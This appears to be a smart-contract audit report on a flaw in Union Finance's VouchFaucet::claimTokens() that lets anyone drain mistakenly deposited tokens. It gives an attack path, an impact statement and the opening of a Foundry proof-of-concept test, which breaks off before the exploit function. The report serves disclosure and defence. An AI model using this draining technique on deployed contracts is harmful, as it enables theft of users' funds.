 ### External pre-conditions

None

### Attack Path

1. Alice accidentally sent 10e18 tokens to the contract, likely intending to to something other with them but making a mistake in the transaction.

2. Bob, aware of a protocol flaw and anticipating such a mistake, noticed this transaction.

3. He exploited the vulnerability by calling the [`VouchFaucet::claimTokens()`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93) with 10e18 tokens.

4. This action drained all the tokens, resulting in a loss for both Alice and the protocol.

Note:
>Check and run the coded PoC to understand better the vulnerability.

### Impact

Due to a flaw in the [`VouchFaucet::claimTokens()`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93) function, anyone can steal all the tokens deposited in the contract. This vulnerability can be exploited by malicious actors, leading to significant financial losses.

### PoC

1. In order to run the test, go to the [`VouchFaucet.t.sol`](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/test/foundry/peripheral/VouchFaucet.t.sol) contract and replace its content with the one below:

```solidity
pragma solidity ^0.8.0;

import {TestWrapper} from "../TestWrapper.sol";
import {VouchFaucet} from "union-v2-contracts/peripheral/VouchFaucet.sol";

import "forge-std/console2.sol";

contract TestVouchFaucet is TestWrapper {
    VouchFaucet public vouchFaucet;

    uint256 public TRUST_AMOUNT = 10 * UNIT;
    address BOB = address(1);
    address ALICE = address(2);

    function setUp() public {
        deployMocks();
        vouchFaucet = new VouchFaucet(address(userManagerMock), TRUST_AMOUNT);

        erc20Mock.mint(ALICE, 100 ether);

        vm.startPrank(ALICE);
        erc20Mock.approve(address(vouchFaucet), type(uint256).max);
        vm.stopPrank();
    }

    function testConfig() public {
        assertEq(vouchFaucet.USER_MANAGER(), address(userManagerMock));
        assertEq(vouchFaucet.TRUST_AMOUNT(), TRUST_AMOUNT);
        assertEq(vouchFaucet.STAKING_TOKEN(), userManagerMock.stakingToken());
    }

    function testSetMaxClaimable(address token, uint256 amount) public {
```